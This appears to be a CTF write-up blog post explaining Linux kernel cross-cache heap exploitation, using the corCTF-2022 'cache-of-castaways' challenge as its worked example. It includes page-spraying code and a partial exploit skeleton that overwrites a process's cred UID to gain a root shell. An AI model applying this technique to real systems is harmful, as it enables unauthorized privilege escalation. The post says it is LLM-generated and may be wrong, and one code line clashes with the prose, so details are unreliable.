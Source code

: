```yaml
---
title: "[KPWN] Cross-Cache Attack"
authors: [nova]
date: 2024-11-06
---
```


I’ve never explored cross-cache before, so today let’s dive into it.

<!--truncate-->

## Page-Level Heap Feng Shui (Page-level heap fengshui)

In the Linux kernel, SLUB layouts are notoriously hard to predict: which SLUB comes before or after another, or where the next allocation will land. There are so many allocs and frees happening that we can barely forecast the SLUB layout. However, using page-level feng shui, we can artificially create a more controllable layout with a higher success rate.

When the Buddy System allocates pages, it groups pages by “order.” Each order maintains a doubly linked list of blocks of size $2^{order}$ pages, which are physically contiguous at initialization. If the free area for order n is empty, half of a block from order n+1 is split: one half is returned to the allocator, and the other half is inserted into the order-n free list. Conversely, when pages are freed, they go into the corresponding free area (FIFO). If two physical “buddies” of order n exist, they merge into one block in the order-(n+1) free area.

> For details, see a3’s deep dive: https://arttnba3.cn/2022/06/30/OS-0X03-LINUX-KERNEL-MEMORY-5.11-PART-II

Imagine order-0 is empty. The next time the allocator needs a single page, it pulls a 2-page block from order-1 ($2^1 = 2$ pages), returns one page to the allocator, and keeps the other in order-0. Those two pages are guaranteed contiguous. If our vuln SLUB grabs the first page and the victim SLUB grabs the second, we achieve a controlled layout—classic page feng shui.

:::warning
This technique is inherently unstable; it only increases the probability of success. The kernel mostly uses order-0 pages, and SLUBs without the ACCOUNT flag are frequently reused. Even if we ensure that vuln and victim SLUB pages are physically adjacent, we can’t guarantee that the vuln object sits at the end of its SLUB and the victim object at the start of its SLUB.
:::

In real-world CVEs, page feng shui is often applied with non-order-0 attack primitives.

## Cross-Cache

Once page feng shui is in place, Cross-Cache is straightforward: overflow a vuln object in one kmem_cache to corrupt a victim object in another SLUB.

![](https://oss.nova.gal/img/heap_layout2.gif)

I highly recommend reading Xiao Chen’s [“CVE-2022-27666: Exploit esp6 modules in Linux kernel” - ETenal](https://etenal.me/archives/1825). His (admittedly not super polished but) clear PPT animations explain the entire Cross-Cache process.

## Ideal Scenario

In a noiseless environment, our attack model might look like this:

```python
for x in range(0x200):
    alloc_page()  # Exhaust low-order pages
for x in range(1, 0x200, 2):
    free_page(x)  # Free odd pages to prevent buddies merging into high-order
spray_victim_obj()
for x in range(0, 0x200, 2):
    free_page(x)  # Free even pages similarly
spray_vulnerable_obj()
overflow_vulnerable_obj()  # Overflow at SLUB boundary into victim object
```

With noise—kernel structures grabbing freed pages, new pages entering low-order free lists, or SLUB aliasing changing object order—our attack can fail.

## corCTF-2022 cache-of-castaways

This is one of the rare CTF challenges demonstrating Cross-Cache. For real-world exploits, see:

- [CVE-2022-29582 - Computer security and related topics](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/)
- [CVE-2022-27666: Exploit esp6 modules in Linux kernel - ETenal](https://etenal.me/archives/1825)
- [Project Zero: Exploiting the Linux kernel via packet sockets](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

Download the challenge here:
[Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/cache-of-castaways](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/cache-of-castaways)

The CTF provides add and edit functions, with a 6-byte overflow. This cache has the SLAB_ACCOUNT flag, so it uses a dedicated SLUB block.

![image-20241106160439301](https://oss.nova.gal/img/image-20241106160439301.png)

With a 6-byte overflow, we can overwrite the UID in `cred` to 0. Conveniently, `cred_jar` also resides in an ACCOUNT SLUB, reducing noise.

Next, we follow the ideal steps. First, page spraying using the elegant packet-socket primitive from CVE-2017-7308.

> [Project Zero: Exploiting the Linux kernel via packet sockets](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)

After setup, `alloc_pg_vec()` allocates `tp_block_nr` blocks of `2^order` pages. Closing the fd frees them. Unprivileged users must switch namespaces, so we use pipes for IPC:

```c
#include "kernel.h"

#define INITIAL_PAGE_SPRAY 1000
#define CRED_JAR_SPRAY 512
#define SIZE 0x1000
#define PAGENUM 1

int sprayfd_child[2], sprayfd_parent[2];
int socketfds[INITIAL_PAGE_SPRAY];

enum spraypage_cmd { ALLOC, FREE, QUIT };

// ...existing code...

void spray_pages() {
    struct ipc_req_t req;
    do {
        read(sprayfd_child[0], &req, sizeof(req));
        switch (req.cmd) {
            case ALLOC:
                socketfds[req.idx] = alloc_pages_via_sock(SIZE, req.idx);
                break;
            case FREE:
                close(socketfds[req.idx]);
                break;
            case QUIT:
                break;
        }
        write(sprayfd_parent[1], &req, sizeof(req));
    } while (req.cmd != QUIT);
}
```

We fork a child into new namespaces and coordinate via pipes.

In `unshare_setup` and `alloc_pages_via_sock`, we see:

```c
int alloc_pages_via_sock(uint32_t size, uint32_t n) {
    struct tpacket_req req;
    int32_t socketfd, version;

    socketfd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
    // ...existing code...
    return socketfd;
}
```

Next, free odd pages and spray creds. To reduce noise from `fork()`, we switch to `clone(CLONE_FILES|CLONE_FS|CLONE_VM|CLONE_SIGHAND)` and use a custom `check_and_wait` stub in assembly to synchronize and spawn `/bin/sh` when root.

Finally, free even pages, spray vuln objects, set the overflow to zero the UID, and trigger the exploit.

![image-20241106201611213](https://oss.nova.gal/img/image-20241106201611213.png)

### Exploit Skeleton

```c
#include "kernel.h"

#define CLONE_FLAGS (CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND)
#define INITIAL_PAGE_SPRAY 1000
#define VULN_SPRAY 400
#define CRED_JAR_SPRAY 512
#define SIZE 0x1000
#define PAGENUM 1

int fd;
int sprayfd_child[2], sprayfd_parent[2], rootfd[2];
int socketfds[INITIAL_PAGE_SPRAY];
// ...existing code...

int main() {
    bind_cpu(0);
    fd = open("/dev/castaway", O_RDWR);
    // ...existing code...

    puts("\033[32m[+] Start to spray pages\033[0m");
    if (!fork()) {
        unshare_setup(getuid(), getgid());
        spray_pages();
    }
    // ...existing code...

    *(uint32_t *)(&data[0x200-6]) = 1;
    for (int i = 0; i < VULN_SPRAY; i++) {
        ioctl(fd, 0xcafebabe);
        edit(i, 0x200, data);
    }

    puts("\033[32m[+] Let's roll\033[0m");
    write(rootfd[1], data, sizeof(data));
    sleep(1000000000);
}
```

Note: This still has a chance to fail due to kernel noise.

:::info
If you want to optimize further, ensure freed pages are contiguous high-order blocks. However, tests showed no meaningful improvement—kernel noise likely still disrupts SLUB allocations.
:::

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
